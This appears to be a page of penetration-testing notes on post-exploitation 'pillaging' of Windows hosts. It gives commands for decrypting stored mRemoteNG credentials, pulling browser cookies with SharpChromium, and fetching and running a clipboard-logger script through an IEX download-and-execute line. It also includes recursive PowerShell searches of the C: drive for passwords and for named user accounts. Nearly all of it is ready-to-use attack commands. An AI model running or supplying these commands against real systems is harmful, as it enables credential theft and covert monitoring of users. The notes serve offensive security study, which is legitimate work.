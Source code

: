 ### Pillaging User Data

Beyond credentials, look for sensitive data in application files.

```shell
# Check mRemoteNG connection files for stored credentials
# Decrypt them using a known script
python3 mremoteng_decrypt.py -s "<EncryptedString>" -p <MasterPassword>

# Extract cookies from browser databases
Invoke-SharpChromium -Command "cookies <domain.com>"

# Monitor the clipboard for sensitive information
IEX(New-Object Net.WebClient).DownloadString('https://.../Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```

### Check for sensitive files

```shell
# for the userlist find and replace \n with ,
paste -sd ', ' data.txt
tr '\n' ' ' < data.txt | sed 's/ $/, /g; s/, / /'

# and then check for

check c:\ location for silly stuff
check with ls -force too for silly hidden files

findstr /spin "iamtheadministrator" *.*

Get-ChildItem -Path C:\ -Recurse -Force -Include .config,.ini,.xml,.bak,*.txt -File -ErrorAction SilentlyContinue | Where-Object { $_.FullName -notmatch 'Windows\System32|SysWOW64' } | Select-String -Pattern "password="

Get-ChildItem -Path C:\ -Recurse -Force -Include .config,.ini,.xml,.bak,*.txt -File -ErrorAction SilentlyContinue | Where-Object { $_.FullName -notmatch 'Windows\System32|SysWOW64' } | Select-String -Pattern "pwd=", "password=", "username=", "user="

Get-ChildItem -Path C:\ -Recurse -Force -Include .config,.ini,.xml,.bak,.txt,.ps1 -File -ErrorAction SilentlyContinue | Where-Object { $_.FullName -notmatch 'Windows\System32|SysWOW64|VMware|All Users|ProgramData' } | Select-String -Pattern "pwd", "pass", "password=", "username=", "user=", "marko", "zach", "Administrator", ryan, Administrator, Guest, krbtgt, DefaultAccount, ryan, marko, sunita, abigail, marcus, sally, fred, angela, felicia, gustavo, ulf, stevie, claire, paulo, steve, annette, annika, per, claude, melanie, zach, simon, naoki

# find a file via filename
Get-PSDrive -PSProvider FileSystem | ForEach-Object { Get-ChildItem -Path $_.Root -Recurse -Filter "confidential.txt" -ErrorAction SilentlyContinue }
```
